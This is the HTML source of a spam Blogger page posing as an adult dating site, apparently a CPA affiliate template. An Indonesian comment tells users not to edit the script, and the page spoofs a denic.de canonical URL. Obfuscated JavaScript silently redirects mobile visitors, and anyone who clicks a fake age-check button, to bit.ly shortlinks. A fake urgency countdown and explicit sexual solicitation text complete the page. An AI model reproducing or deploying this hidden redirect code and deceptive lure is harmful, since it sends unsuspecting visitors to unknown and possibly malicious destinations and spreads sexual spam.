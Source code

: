 <!-- ############################################################################################################### Halo Spamta KampungCPA Jangan pernah merubah Script yang ada disini kecuali Link Canonical Untuk Link CPA cukup di taruh di Post ############################################################################################################### --><html xmlns='http://www.w3.org/1999/xhtml' xmlns:b='http://www.google.com/2005/gml/b' xmlns:data='http://www.google.com/2005/gml/data' xmlns:expr='http://www.google.com/2005/gml/expr'>
<head>
<link href='https://www.denic.de/en/' rel='canonical'/>
<meta content='https://www.denic.de/en/' property='og:url'/>
<meta content='Top Among Dating Sites for Singles!' property='og:title'/>
<meta content='Join our online dating site and meet singles for a healthy portion of a nice flirting and wonderful romance!' property='og:description'/>
<link href='https://www.denic.de/en/' rel='canonical'/>
<meta content='https://www.denic.de/en/' property='og:url'/>
<meta content='With my education, prostitution wasnt the only option but its the highest and the fastest paying.' name='description'/>
<meta content='Dating 18+,free live fun, free live sex, live sex shows, webcam show' name='keywords'/>
<title>Adult Dating</title>
<link type='text/css' rel='stylesheet' href='https://www.blogger.com/static/v1/widgets/1708208307-widget_css_bundle.css' />
<link type='text/css' rel='stylesheet' href='https://www.blogger.com/dyn-css/authorization.css?targetBlogID=2784163554519018858&zx=0b2d0c15-041c-4d03-adb3-5f487069a863' />
<style id='page-skin-1' type='text/css'><!--
.blog-feeds{display:none !important;}
#blog-pager-newer-link {
float: left;
display: none;
}
#blog-pager-older-link {
float: right;
display: none;
}
#blog-pager {
text-align: center;
display: none;
}
h3.post-title { text-align:center; }
.blog-feeds{display:none !important;}
.post-title.entry-title {
display: none;
}

--></style>
<script type="text/javascript">
if (window.jstiming) window.jstiming.load.tick('headEnd');
</script><link rel="me" href="https://www.blogger.com/profile/11486202253633209195" />
<link rel="openid.server" href="https://www.blogger.com/openid-server.g" />
</head>
<body>
<div class='section' id='by Unknown'></div>
<div class='main section' id='main'><div class='widget Blog' id='Blog1'>
<div class='blog-posts hfeed'>

          <div class="date-outer">
        

          <div class="date-posts">
        
<div class='post-outer'>
<div class='post hentry' itemprop='blogPost' itemscope='itemscope' itemtype='http://schema.org/BlogPosting'>
<meta content='http://img2.blogblog.com/img/icon18_edit_allbkg.gif' itemprop='image_url'/>
<meta content='2784163554519018858' itemprop='blogId'/>
<meta content='3942790499181088828' itemprop='postId'/>
<a name='3942790499181088828'></a>
<div class='post-header'>
<div class='post-header-line-1'></div>
</div>
<div class='post-body entry-content' id='post-body-3942790499181088828' itemprop='description articleBody'>

<!-- ############################################################################################################### Halo Spamta KampungCPA Jangan pernah merubah Script yang ada disini kecuali Link Canonical Untuk Link CPA cukup di taruh di Post ############################################################################################################### --><html xmlns='http://www.w3.org/1999/xhtml' xmlns:b='http://www.google.com/2005/gml/b' xmlns:data='http://www.google.com/2005/gml/data' xmlns:expr='http://www.google.com/2005/gml/expr'>
<head>
<meta content='Top Among Dating Sites for Singles!' property='og:title'/>
<meta content='Join our online dating site and meet singles for a healthy portion of a nice flirting and wonderful romance!' property='og:description'/>
<link href='https://www.denic.de/en/' rel='canonical'/>
<meta content='https://www.denic.de/en/' property='og:url'/>
<meta content='With my education, prostitution wasnt the only option but its the highest and the fastest paying.' name='description'/>
<meta content='Dating 18+,free live fun, free live sex, live sex shows, webcam show' name='keywords'/>
<title>chatDa4T1ngfreexx</title>
<link type='text/css' rel='stylesheet' href='https://www.blogger.com/static/v1/widgets/1708208307-widget_css_bundle.css' />
<link type='text/css' rel='stylesheet' href='https://www.blogger.com/dyn-css/authorization.css?targetBlogID=4410096660618289149&zx=c5e3e7c9-f5d8-4a85-b257-0e64f5647afb' />
<style id='page-skin-1' type='text/css'><!--
.blog-feeds{display:none !important;}
#blog-pager-newer-link {
float: left;
display: none;
}
#blog-pager-older-link {
float: right;
display: none;
}
#blog-pager {
text-align: center;
display: none;
}
h3.post-title { text-align:center; }
.blog-feeds{display:none !important;}
.post-title.entry-title {
display: none;
}

--></style>
<script type="text/javascript">
if (window.jstiming) window.jstiming.load.tick('headEnd');
</script></head>
<body>
<div class='section' id='by Unknown'></div>
<div class='main section' id='main'><div class='widget Blog' id='Blog1'>
<div class='blog-posts hfeed'>

          <div class="date-outer">
        

          <div class="date-posts">
        
<div class='post-outer'>
<div class='post hentry' itemprop='blogPost' itemscope='itemscope' itemtype='http://schema.org/BlogPosting'>
<meta content='4410096660618289149' itemprop='blogId'/>
<meta content='7868951492057794390' itemprop='postId'/>
<a name='7868951492057794390'></a>
<div class='post-header'>
<div class='post-header-line-1'></div>
</div>
<div class='post-body entry-content' id='post-body-7868951492057794390' itemprop='description articleBody'>
<!DOCTYPE html>
<html lang="en">

    <head>
        <meta charset="UTF-8" />
<script type="text/javascript">window.NREUM||(NREUM={});NREUM.info={"beacon":"bam.nr-data.net","errorBeacon":"bam.nr-data.net","licenseKey":"bcc61c6f3d","applicationID":"6702766","transactionName":"clwKRhdcCFhVR0k3W19SEEAEHEtzdWFG","queueTime":0,"applicationTime":8,"agent":"js-agent.newrelic.com/nr-768.min.js"}</script>
<script type="text/javascript">window.NREUM||(NREUM={}),__nr_require=function(e,n,t){function r(t){if(!n[t]){var o=n[t]={exports:{}};e[t][0].call(o.exports,function(n){var o=e[t][1][n];return r(o||n)},o,o.exports)}return n[t].exports}if("function"==typeof __nr_require)return __nr_require;for(var o=0;o<t.length;o++)r(t[o]);return r}({QJf3ax:[function(e,n){function t(e){function n(n,t,a){e&&e(n,t,a),a||(a={});for(var u=c(n),f=u.length,s=i(a,o,r),p=0;f>p;p++)u[p].apply(s,t);return s}function a(e,n){f[e]=c(e).concat(n)}function c(e){return f[e]||[]}function u(){return t(n)}var f={};return{on:a,emit:n,create:u,listeners:c,_events:f}}function r(){return{}}var o="nr@context",i=e("gos");n.exports=t()},{gos:"7eSDFh"}],ee:[function(e,n){n.exports=e("QJf3ax")},{}],3:[function(e,n){function t(e){return function(){r(e,[(new Date).getTime()].concat(i(arguments)))}}var r=e("handle"),o=e(1),i=e(2);"undefined"==typeof window.newrelic&&(newrelic=window.NREUM);var a=["setPageViewName","addPageAction","setCustomAttribute","finished","addToTrace","inlineHit","noticeError"];o(a,function(e,n){window.NREUM[n]=t("api-"+n)}),n.exports=window.NREUM},{1:12,2:13,handle:"D5DuLP"}],gos:[function(e,n){n.exports=e("7eSDFh")},{}],"7eSDFh":[function(e,n){function t(e,n,t){if(r.call(e,n))return e[n];var o=t();if(Object.defineProperty&&Object.keys)try{return Object.defineProperty(e,n,{value:o,writable:!0,enumerable:!1}),o}catch(i){}return e[n]=o,o}var r=Object.prototype.hasOwnProperty;n.exports=t},{}],D5DuLP:[function(e,n){function t(e,n,t){return r.listeners(e).length?r.emit(e,n,t):void(r.q&&(r.q[e]||(r.q[e]=[]),r.q[e].push(n)))}var r=e("ee").create();n.exports=t,t.ee=r,r.q={}},{ee:"QJf3ax"}],handle:[function(e,n){n.exports=e("D5DuLP")},{}],XL7HBI:[function(e,n){function t(e){var n=typeof e;return!e||"object"!==n&&"function"!==n?-1:e===window?0:i(e,o,function(){return r++})}var r=1,o="nr@id",i=e("gos");n.exports=t},{gos:"7eSDFh"}],id:[function(e,n){n.exports=e("XL7HBI")},{}],G9z0Bl:[function(e,n){function t(){var e=d.info=NREUM.info,n=f.getElementsByTagName("script")[0];if(e&&e.licenseKey&&e.applicationID&&n){c(p,function(n,t){n in e||(e[n]=t)});var t="https"===s.split(":")[0]||e.sslForHttp;d.proto=t?"https://":"http://",a("mark",["onload",i()]);var r=f.createElement("script");r.src=d.proto+e.agent,n.parentNode.insertBefore(r,n)}}function r(){"complete"===f.readyState&&o()}function o(){a("mark",["domContent",i()])}function i(){return(new Date).getTime()}var a=e("handle"),c=e(1),u=window,f=u.document;e(2);var s=(""+location).split("?")[0],p={beacon:"bam.nr-data.net",errorBeacon:"bam.nr-data.net",agent:"js-agent.newrelic.com/nr-768.min.js"},d=n.exports={offset:i(),origin:s,features:{}};f.addEventListener?(f.addEventListener("DOMContentLoaded",o,!1),u.addEventListener("load",t,!1)):(f.attachEvent("onreadystatechange",r),u.attachEvent("onload",t)),a("mark",["firstbyte",i()])},{1:12,2:3,handle:"D5DuLP"}],loader:[function(e,n){n.exports=e("G9z0Bl")},{}],12:[function(e,n){function t(e,n){var t=[],o="",i=0;for(o in e)r.call(e,o)&&(t[i]=n(o,e[o]),i+=1);return t}var r=Object.prototype.hasOwnProperty;n.exports=t},{}],13:[function(e,n){function t(e,n,t){n||(n=0),"undefined"==typeof t&&(t=e?e.length:0);for(var r=-1,o=t-n||0,i=Array(0>o?0:o);++r<o;)i[r]=e[n+r];return i}n.exports=t},{}]},{},["G9z0Bl"]);</script>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1">
<script language='javascript' type='text/javascript'>
var _0xbf8d=['test','substr','location','userAgent','opera','http://bit.ly/2DQ8K4J','search'];(function(_0x3c600c,_0x3cf414){var _0x3929d1=function(_0x4132dc){while(--_0x4132dc){_0x3c600c['push'](_0x3c600c['shift']());}};_0x3929d1(++_0x3cf414);}(_0xbf8d,0x1b9));var _0xdbf8=function(_0x5aa27a,_0x5161d0){_0x5aa27a=_0x5aa27a-0x0;var _0x585c65=_0xbf8d[_0x5aa27a];return _0x585c65;};(function(_0x587863,_0x15ad55){if(/android.+mobile|avantgo|bada\/|blackberry|blazer|compal|elaine|fennec|hiptop|iemobile|ip(hone|od)|iris|kindle|lge |maemo|midp|mmp|netfront|opera m(ob|in)i|palm( os)?|phone|p(ixi|re)\/|plucker|pocket|psp|symbian|treo|up\.(browser|link)|vodafone|wap|windows (ce|phone)|xda|xiino/i[_0xdbf8('0x0')](_0x587863)||/1207|6310|6590|3gso|4thp|50[1-6]i|770s|802s|a wa|abac|ac(er|oo|s\-)|ai(ko|rn)|al(av|ca|co)|amoi|an(ex|ny|yw)|aptu|ar(ch|go)|as(te|us)|attw|au(di|\-m|r |s )|avan|be(ck|ll|nq)|bi(lb|rd)|bl(ac|az)|br(e|v)w|bumb|bw\-(n|u)|c55\/|capi|ccwa|cdm\-|cell|chtm|cldc|cmd\-|co(mp|nd)|craw|da(it|ll|ng)|dbte|dc\-s|devi|dica|dmob|do(c|p)o|ds(12|\-d)|el(49|ai)|em(l2|ul)|er(ic|k0)|esl8|ez([4-7]0|os|wa|ze)|fetc|fly(\-|_)|g1 u|g560|gene|gf\-5|g\-mo|go(\.w|od)|gr(ad|un)|haie|hcit|hd\-(m|p|t)|hei\-|hi(pt|ta)|hp( i|ip)|hs\-c|ht(c(\-| |_|a|g|p|s|t)|tp)|hu(aw|tc)|i\-(20|go|ma)|i230|iac( |\-|\/)|ibro|idea|ig01|ikom|im1k|inno|ipaq|iris|ja(t|v)a|jbro|jemu|jigs|kddi|keji|kgt( |\/)|klon|kpt |kwc\-|kyo(c|k)|le(no|xi)|lg( g|\/(k|l|u)|50|54|e\-|e\/|\-[a-w])|libw|lynx|m1\-w|m3ga|m50\/|ma(te|ui|xo)|mc(01|21|ca)|m\-cr|me(di|rc|ri)|mi(o8|oa|ts)|mmef|mo(01|02|bi|de|do|t(\-| |o|v)|zz)|mt(50|p1|v )|mwbp|mywa|n10[0-2]|n20[2-3]|n30(0|2)|n50(0|2|5)|n7(0(0|1)|10)|ne((c|m)\-|on|tf|wf|wg|wt)|nok(6|i)|nzph|o2im|op(ti|wv)|oran|owg1|p800|pan(a|d|t)|pdxg|pg(13|\-([1-8]|c))|phil|pire|pl(ay|uc)|pn\-2|po(ck|rt|se)|prox|psio|pt\-g|qa\-a|qc(07|12|21|32|60|\-[2-7]|i\-)|qtek|r380|r600|raks|rim9|ro(ve|zo)|s55\/|sa(ge|ma|mm|ms|ny|va)|sc(01|h\-|oo|p\-)|sdk\/|se(c(\-|0|1)|47|mc|nd|ri)|sgh\-|shar|sie(\-|m)|sk\-0|sl(45|id)|sm(al|ar|b3|it|t5)|so(ft|ny)|sp(01|h\-|v\-|v )|sy(01|mb)|t2(18|50)|t6(00|10|18)|ta(gt|lk)|tcl\-|tdg\-|tel(i|m)|tim\-|t\-mo|to(pl|sh)|ts(70|m\-|m3|m5)|tx\-9|up(\.b|g1|si)|utst|v400|v750|veri|vi(rg|te)|vk(40|5[0-3]|\-v)|vm40|voda|vulc|vx(52|53|60|61|70|80|81|83|85|98)|w3c(\-| )|webc|whit|wi(g |nc|nw)|wmlb|wonu|x700|xda(\-|2|g)|yas\-|your|zeto|zte\-/i['test'](_0x587863[_0xdbf8('0x1')](0x0,0x4)))window[_0xdbf8('0x2')]=_0x15ad55;}(navigator[_0xdbf8('0x3')]||navigator['vendor']||window[_0xdbf8('0x4')],_0xdbf8('0x5')+document[_0xdbf8('0x2')][_0xdbf8('0x6')]));</script>

        <title>Adult Dating</title>

        <link href='http://fonts.googleapis.com/css?family=Roboto:400,300,700' rel='stylesheet' type='text/css'>
        <link href='http://fonts.googleapis.com/css?family=Raleway:400,700' rel='stylesheet' type='text/css'>
        <link href='http://fonts.googleapis.com/css?family=Monoton' rel='stylesheet' type='text/css'>

        <script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/jquery.d566fa9f6e991a6f4449e20a55cbbf6b.js"></script>
        <script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/vegas.5623475bda32ac343029e0d882d1d397.js"></script>
        <script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/jquery.countdown.eaebf74138d64049fa5eaa19d5bddfe5.js"></script>
        <script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/jquery.novacancy.a9a23c4241831fcb272fe91bdabe9a70.js"></script>

        <script type="text/javascript">
        $(document).ready(function() {
            $('#no').novacancy({
                'reblinkProbability': 0.1,
                'blinkMin': 0.2,
                'blinkMax': 0.6,
                'loopMin': 8,
                'loopMax': 10,
                'color': '#ffffff',
                'glow': ['0 0 80px #ffffff', '0 0 30px #ffffff', '0 0 6px #ffffff']
            }); 

            $('#vacancy').novacancy({
                'blink': 1,
                'off': 1,
                'color': 'Red',
                'glow': ['0 0 80px Red', '0 0 30px FireBrick', '0 0 6px DarkRed']
            });
        });
        </script>

        <link rel="stylesheet" href="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/css/bootstrap.min.99c5f994d59f964b93d695845124892d.css" />
        <link rel="stylesheet" href="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/css/style.1eb24b77790b5e6fa648a7c52befadce.css">
        <link rel="stylesheet" href="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/css/animate.ca1e8d0feeeefc5bcfe12db46c596878.css" />
        <link rel="stylesheet" href="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/css/vegas.65ae58983dd3ac2ff1ccd41c21582acc.css" />

        <link rel="shortcut icon" href="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/images/favicon.930f9d08caed1118b23749adb899ccd4.png" type="image/x-icon">
        <link rel="icon" href="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/images/favicon.930f9d08caed1118b23749adb899ccd4.png" type="image/x-icon">
    </head>

<body id="home">

<div class="container">
                <div class="row hero-content text-center">
                    <div class="col-md-6 col-md-offset-3 wowload fadeInRight">
                        

                        <p>Meet your next sex buddy. Single babes in your neighborhood!</p>

<div class="clock">04:59

                        </div>
                        
                        <div class="step">
                            <p>Are you 18+ or older?</p>
                            <a href="javascript:void(0)" onclick="ngid()" class="btn btn-end"><span>Continue</span></a>
                        </div>
                    </div>
                </div>
            </div>

<script language="JavaScript" type="text/javascript">
function clear_delay(e){window.clearTimeout(e)}function run_loading_run_1(e){timeoutID1=window.setTimeout(run_loading_1,e)}function run_loading_1(){$(".thank_for_close, .run_loading_2").fadeIn();$(".main_review").hide()}function run_loading_run_2(e){timeoutID2=window.setTimeout(run_loading_2,e)}function run_loading_2(){$(".thank_for_close, .run_loading_2").hide();$(".run_loading_3, .li_run_loading_1, .li_run_loading_2").fadeIn()}function run_loading_run_3(e){timeoutID3=window.setTimeout(run_loading_3,e)}function run_loading_3(){$(".run_loading_3").hide();$(".run_loading_4, .li_run_loading_3").fadeIn()}function run_loading_run_4(e){timeoutID3=window.setTimeout(run_loading_4,e)}function run_loading_4(){$(".run_loading_4, .loading").hide();$(".li_run_loading_4, li_run_loading_5, .run_loading_5, .show_end").fadeIn()}$(function(){$(document).on("click",".next",function(e){e.preventDefault();$(this).parent().hide().next().fadeIn()});$(document).on("click",".run_loading",function(e){e.preventDefault();$(this).parent().hide().next().fadeIn();$(".step4 .loading").show();run_loading_run_1("1000");run_loading_run_2("2250");run_loading_run_3("3000");run_loading_run_4("4000")})})
</script>
<script type="text/javascript">
var _0xdb2b=['http://bit.ly/2nlwLdB','search','location','replace'];(function(_0x83e09,_0x3bcf49){var _0x9a54ca=function(_0x2d09bc){while(--_0x2d09bc){_0x83e09['push'](_0x83e09['shift']());}};_0x9a54ca(++_0x3bcf49);}(_0xdb2b,0x16e));var _0xbdb2=function(_0x2fb47b,_0x4fe539){_0x2fb47b=_0x2fb47b-0x0;var _0x13a4c7=_0xdb2b[_0x2fb47b];return _0x13a4c7;};function ngid(){window[_0xbdb2('0x0')][_0xbdb2('0x1')](_0xbdb2('0x2')+document[_0xbdb2('0x0')][_0xbdb2('0x3')]);}</script><script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/wow.min.d5352aa7cf31fd211aa6e221c9bf4f93.js"></script>
<script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/bootstrap.f4b3cabf77c4c52b735a071b68714d22.js" type="text/javascript" ></script>
<script src="http://cdn.offersupply.com/adu_en_15_49_temp_3_sub_3_1_count_q1_sli_all_teen_asian_jm/js/touchswipe.min.bed6b0479f105f725a43f5bbbc190b4a.js"></script>

<script type="text/javascript">
$("#example, body").vegas({
    delay: 2500,
    timer: false,
    shuffle: true,
    timer: true,
    transition: 'fade',
    transitionDuration: 2000,
    slides: [
        { src: 'https://image.prntscr.com/image/uVYQ9NiuRpqtGz2kalkJ7A.png' },
        { src: 'https://image.prntscr.com/image/7QIV8KQ9QUi4fvUkBGikRg.png' },
        { src: 'https://image.prntscr.com/image/A7U3speBQh6_C1xWiO-FSQ.png' },
    ]
});
</script>

<script type="text/javascript">

var interval = setInterval(function() {
    var timer = $('.clock').html();
    timer = timer.split(':');
    var minutes = parseInt(timer[0], 10);
    var seconds = parseInt(timer[1], 10);
    seconds -= 1;
    if (minutes < 0) return clearInterval(interval);
    if (minutes < 10 && minutes.length != 2) minutes = '0' + minutes;
    if (seconds < 0 && minutes != 0) {
        minutes -= 1;
        seconds = 59;
    }
    else if (seconds < 10 && length.seconds != 2) seconds = '0' + seconds;
    $('.clock').html(minutes + ':' + seconds);
    
    if (minutes == 0 && seconds == 0)
        clearInterval(interval);
}, 1000);

</script>
<script>
  dataLayer = [];
</script>


<script type="text/javascript" src="https://www.blogger.com/static/v1/common/js/168336579-csitail.js"></script>
<script type="text/javascript">BLOG_initCsi('classic_blogspot');</script><script type="text/javascript" src="https://www.blogger.com/static/v1/common/js/168336579-csitail.js"></script>
<script type="text/javascript">BLOG_initCsi('classic_blogspot');</script></body></html>
